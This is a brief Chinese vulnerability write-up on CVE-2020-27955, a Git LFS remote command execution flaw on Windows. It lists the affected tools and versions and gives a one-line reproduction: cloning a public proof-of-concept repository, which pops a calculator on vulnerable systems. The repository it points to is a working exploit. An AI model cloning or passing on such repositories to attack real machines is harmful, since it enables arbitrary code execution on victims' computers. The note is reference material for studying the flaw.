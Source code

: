 # Git-LFS 远程命令执行漏洞 CVE-2020-27955

## 漏洞描述

Git LFS 是 Github 开发的一个 Git 的扩展，用于实现 Git 对大文件的支持

一些受影响的产品包括Git，GitHub CLI，GitHub Desktop，Visual Studio，GitKraden，SmartGit，Sourcetree等

该漏洞影响仅windows平台

## 漏洞影响

```
Git-LFS（git-lfs）<= 2.12
```

## 漏洞复现

运行下列的命令，如果版本在影响范围则会弹出计算器

```plain
git clone https://github.com/r00t4dm/CVE-2020-27955
```

![1](./images/202202090053405.png)

![2](./images/202202090053009.png)

## 漏洞POC

```plain
https://github.com/r00t4dm/CVE-2020-27955
```

